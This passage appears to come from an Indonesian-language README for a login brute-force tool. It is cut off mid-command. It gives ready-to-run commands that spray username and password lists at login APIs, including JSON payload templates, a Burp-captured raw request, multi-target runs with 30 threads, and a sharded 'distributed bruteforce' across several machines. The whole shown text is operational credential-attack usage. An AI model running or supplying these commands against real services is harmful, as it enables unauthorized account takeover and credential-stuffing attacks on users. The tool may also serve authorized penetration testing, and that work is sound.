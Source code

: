 ```bash
# Kalo API-nya pake format aneh
python3 main.py \
  -t https://api.target.com/auth \
  -U users.txt \
  -P passwords.txt \
  --payload '{"email":"{EMAIL}","pwd":"{PASS}","remember":true}' \
  --content-type application/json
```

#### SQLMap-Style (Raw HTTP Request)

1. Capture request di Burp Suite
2. Copy as raw HTTP request
3. Save ke file `request.txt`:

```http
POST /api/v1/login HTTP/1.1
Host: api.target.com
Content-Type: application/json
Authorization: Bearer static-token-here
User-Agent: Mozilla/5.0

{"username":"{USER}","password":"{PASS}"}
```

4. Run:

```bash
python3 main.py \
  -r request.txt \
  -U users.txt \
  -P passwords.txt
```

#### Multi-Target Attack

```bash
# File targets.txt berisi list URL
python3 main.py \
  -T targets.txt \
  -U users.txt \
  -P passwords.txt \
  --dist-mode user-queue \
  -c 30
```

#### Advanced: Distributed Bruteforce

Pecah attack ke multiple machines/terminals:

```bash
# Terminal 1 (shard 0)
python3 main.py \
  -t https://api.target.com/login \
  -U users.txt -P passwords.txt \
  --shards 3 --shard-index 0 \
  --global-stop-flag /tmp/stop.flag

# Terminal 2 (shard 1)
python3 main.py \
  -t https://api.target.com/login \
  -U users.txt -P passwords.txt \
  --shards 3 --shard-index 1 \
  --global-stop-flag /tmp/stop.flag

# Terminal 3 (shard 2)
python3 main.py \
  -t https://api.target.com/login \
```